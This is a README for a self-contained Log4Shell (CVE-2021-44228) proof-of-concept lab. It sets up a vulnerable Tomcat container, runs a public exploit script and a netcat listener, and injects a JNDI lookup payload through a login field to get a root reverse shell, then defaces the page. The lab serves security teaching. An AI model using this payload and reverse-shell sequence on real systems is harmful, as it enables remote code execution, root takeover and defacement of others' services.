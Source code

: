 # Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

7. Connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
```

#### Terminal 2: Launch exploit

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/; ls
Dockerfile                 LICENSE    requirements.txt
jdk1.8.0_20                poc.py     target
jdk-8u20-linux-x64.tar.gz  README.md  vulnerable-application

debuser@deblab:/log4jlab$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for debuser: 

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/

debuser@deblab:/log4jlab$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in f07313c7813c
Removing intermediate container f07313c7813c
 ---> 0aa3d79eeb7c
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> 3236fc49ad3d
Step 4/5 : EXPOSE 8080
 ---> Running in b73e25384301
Removing intermediate container b73e25384301
 ---> 709b6daec9b1
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in a390bc35dbb4
Removing intermediate container a390bc35dbb4
 ---> bb22ea172197
Successfully built bb22ea172197
Successfully tagged log4j-shell-poc:latest

debuser@deblab:/log4jlab$ docker run --network host log4j-shell-poc
25-May-2022 17:29:07.563 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-13-amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-May-2022 17:29:07.567 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-May-2022 17:29:07.569 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-May-2022 17:29:07.616 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:07.621 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:07.622 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 345 ms
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-May-2022 17:29:07.652 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-May-2022 17:29:07.751 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-May-2022 17:29:08.005 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-May-2022 17:29:08.025 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 373 ms
25-May-2022 17:29:08.030 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:08.055 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:08.056 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 433 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/deblabimg/1.poc-log4shell-dl.png)

The hack succeeded when the netcat listener gives:

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
```

### Hack along

You can check your access, switch to interactive shell and do your log4shell afterhackings ..

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
debuser@deblab:/log4jlab$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```

![poc log4shell](img/deblabimg/2.poc-log4shell-dl.png)

### Reference

- automated environment using vagrant with a [ansible skeleton](https://github.com/bertvv/ansible-skeleton) built by bertvv
- log4j CVE-2021-44228 poc [githubRepo](https://github.com/kozmer/log4j-shell-poc) built by kozer
- log4j CVE-2021-44228 testing tools [URL](https://log4shell.tools/) and [gitRepo](https://github.com/alexbakker/log4shell-tools) built by Alexander Bakker
